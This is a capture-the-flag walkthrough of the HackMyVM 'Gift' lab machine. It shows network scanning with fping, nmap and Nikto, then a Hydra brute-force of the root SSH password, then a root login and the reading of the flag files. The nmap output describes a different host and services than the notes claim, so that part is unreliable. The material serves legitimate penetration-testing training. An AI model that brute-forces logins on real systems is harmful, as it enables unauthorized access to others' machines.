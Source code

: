 ```yaml
---
title: "Gift Writeup HackMyVM"
date: 2024-02-21 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Brute Force, Hydra, Beginner, Privilage Escalation, HackMyVM]
---
```


![Alt Text](/img/gift/vm.png)

<strong>This process highlights the importance of enumeration and scanning for vulnerabilities to gain initial access to a target system. Through this machine, one can learn the importance of thorough reconnaissance and understanding various tools and techniques for successful penetration testing.<strong>

<a href="https://hackmyvm.eu/machines/machine.php?vm=Gift" target="_blank" rel="noopener noreferrer">vm link</a>




##### >> Make a new directory for machine and change to that directory
```shell
┌──(kali㉿kali)-[~]
└─$ cd Desktop/gift
                                                                             
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ 
```



#### >> Find our own IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip a            
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:21:b1:d0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.136/24 brd 192.168.0.255 scope global dynamic noprefixroute eth0
       valid_lft 6912sec preferred_lft 6912sec
    inet6 fe80::f913:6113:d2c9:4db2/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

#### >> Let's find the IP address of our target on our virtual network, we can do this with fping
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ fping -ag 192.168.0.136/24 2> /dev/null
192.168.0.1
192.168.0.115
192.168.0.136
192.168.0.142
192.168.0.147
192.168.0.161
```

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip=192.168.0.161
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ sudo nmap -sC -sV -T4 -A -O -p- $ip
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:49 EST
Nmap scan report for 192.168.0.142
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Quick Automative
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.0.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
```
- Linux: Not yet known which distribution.
- Port 22: SSH (OpenSSH 8.3).
- Port 80: HTTP (nginx).
- Title: The site doesn't have a title (text/html).

#### >> Enumerate the service using WhatWeb

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ whatweb $ip                             
http://192.168.0.161 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[192.168.0.161], nginx
```

#### >> Let’s open the website in the browser
```
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ firefox $ip &                          
[1] 31479
```
![Alt Text](/img/gift/image1.png)

#### >> Let’s Nikto with target IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ nikto -h $ip          
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.0.161
+ Target Hostname:    192.168.0.161
+ Target Port:        80
+ Start Time:         2024-02-08 16:40:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2024-02-08 16:41:11 (GMT-5) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- Nikto discovered something—an #wp-config.php file containing potential credentials. Let's investigate further.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ curl http://$ip/#wp-config.php#

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

#### >> With port 22 open, there is a possibility to attempt brute-forcing the root account using Hydra
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ hydra -l root -P ~/Desktop/wl/rockyou.txt $ip ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-08 16:49:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.0.161:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
[22][ssh] host: 192.168.0.161   login: root   password: simple
[STATUS] 4781466.00 tries/min, 14344398 tries in 00:03h, 2 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-08 16:52:41
```
- -l   : login name
- -P : file path to wordlist

<br>
## Initial Access
<br>

#### >> Let’s login as root via ssh
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
The authenticity of host '192.168.0.161 (192.168.0.161)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.161' (ED25519) to the list of known hosts.
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# 
```
- Now that the connection is established, let's gather information about our identity, roles, and the system we are interacting with.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# whoami;id;host;ip a; pwd
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
-ash: host: not found
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:26:f2:0d brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.161/24 brd 192.168.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe26:f20d/64 scope link 
       valid_lft forever preferred_lft forever
/root
gift:~# 
```
#### >> Flags
```shell
gift:~# ls -l
total 8
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
gift:~# cat root.txt
####flag####
gift:~# cat user.txt
####flag####
gift:~# 
```
<br>
<center>pwned</center>